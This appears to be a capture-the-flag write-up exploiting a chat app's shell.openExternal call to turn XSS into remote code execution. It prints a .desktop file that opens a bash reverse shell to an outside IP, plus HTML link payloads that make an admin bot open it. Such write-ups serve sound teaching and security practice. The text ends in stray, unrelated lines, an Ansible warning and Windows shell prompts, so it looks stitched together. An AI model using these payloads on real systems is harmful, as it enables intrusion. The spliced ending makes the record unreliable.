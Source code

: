 ![A screenshot of the Admin chat with the developer](/static/images/stack-the-flags-2022/admin-chat-gui.png)

### Exploitation

To wrap everything we found until now

- Usage of shell.openExternal(url) which can lead to XSS -> RCE
- We can send messages to the admin user
- We can upload messages to the admin user
- Messages mentioning the usage of a selenium scripts

The only exploitation path we can see is that we assume that there is a bot that’s either downloading the files or clicking the urls (or maybe both? ;) ).

To achieve RCE, we will trick the bot into opening our malicious `.desktop` file which will contain our reverse shell

```desktop
[Desktop Entry]
Exec=bash -c "bash -i >& /dev/tcp/10.10.14.57/443 0>&1"
Type=Application
```

We will trick the user to open our link, which will be passed to `shell.openExternal`

```html
<a className="an" open href="LINK">test</a>
```

At this point, we don’t know wether the bot will download the script or not. We can try both approachs.

1. The easy way is just to host the file in a localwebserver

```html
<a className="an" open href="http://ip:port/pwn.desktop">test</a>
```

2. The other way is to hope that downloads the file
   > Spoilers: the bot also downloads the file u.u

We know from the source that it gets downloaded in `/opt/userland` and we retrieve the random file name with two ways aswell

1. Downloading the file locally using the gui, we need to create a writeable /opt/userland in our local system)
2. Using the Web api to upload the file and the filename will be in the response

In this case our payload will be

```html
<a className="an" open href="file:///opt/userland/5b208f3cb06c3d4a44afa8c948f9aa35.desktop">test</a>
```

Once we make sure the payload is hosted/downloaded we can send the html payload and wait until we get a shell

![A screenshot that shows that our XSS payload is rendered](/static/images/stack-the-flags-2022/payload-xss-rendered.png)


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname